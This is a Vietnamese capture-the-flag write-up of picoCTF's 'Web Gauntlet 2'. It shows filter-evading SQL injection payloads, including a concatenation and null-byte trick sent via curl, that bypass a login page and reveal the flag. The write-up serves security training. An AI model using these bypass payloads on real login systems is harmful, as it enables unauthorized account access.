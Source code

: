 # Web Gauntlet 2

![img](371)

Truy cập trang web:

![img](372)

Xem nội dung `filter.php`:

![img](373)

=> Có thể thấy ta cần bypass trang login bằng SQLi mà không được dùng `OR, AND, TRUE/FALSE, UNION, LIKE, =, >, <, ;, --, /* */, admin`

khi dùng payload test' || 1# thì trang web trả về:

![img](375)

=> Câu truy vấn sẽ có dạng SELECT username, password FROM users WHERE username='test' || 1# ' AND password='abc'

nếu dùng payload x' || username IN (0x61646d696e) # thì trang web trả về:

![img](374)

Tôi thử sử dụng payload giống trong thử thách `Web Gauntlet 1` là `ad'||'min'%00`, null byte sẽ không thể sử dụng trực tiếp trên web nên tôi dùng `cURL`, câu lệnh sẽ là:

    curl --data "user=ad'||'min'%00&pass=a" http://mercury.picoctf.net:61434/index.php --cookie "PHPSESSID=9h8jii0i5qiohfk3eidora23ms" --output -

![img](376)

=> Thành công, kiểm tra file `filter.php` bằng lệnh:

    curl http://mercury.picoctf.net:61434/filter.php --cookie "PHPSESSID=9h8jii0i5qiohfk3eidora23ms" | grep picoCTF

![img](377)
